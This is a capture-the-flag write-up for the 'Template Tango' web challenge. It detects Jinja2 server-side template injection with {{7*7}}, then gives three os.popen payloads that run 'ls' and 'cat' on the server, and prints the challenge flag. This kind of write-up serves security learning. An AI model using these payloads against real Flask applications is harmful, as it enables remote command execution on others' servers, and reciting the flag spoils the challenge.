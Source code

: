 # Template Tango writeup

when we first open the web page we are introduced with an input box and a submit , when we enter our name we are redirected to a page saying `Welcome our_input`

we notice that the name starts with Template hinting that it may be the very common vulnerability `Server side template injection` aka `ssti`

w try puting the common payload for detecting an ssti (payload is the malicious input you use to break a webpage)
`{{7*7}}` when we hit submit we get `Welcome 49` which means `7*7` got interpreted as code 

i recommend you read more about SSTI vulnerability in this [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) webpage .

when we identified that there is a jinja2 SSTI (flask ssti) we can use [payloads of all things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) to get a straight forward payload that gives us access to execute system commands on the server also known as `RCE` (remote code execution) \
i recommend using one of these three payloads as you dont need to find the index of a class 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

we try the first payload with the command `ls` and BAAM , we got the name of our flag `flag118401.txt` 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```

we can then just change the `ls` with `cat flag118401.txt` getting our flag which is `Securinets{T3mpl8_Exploit0r}`

written by : **Chuuya**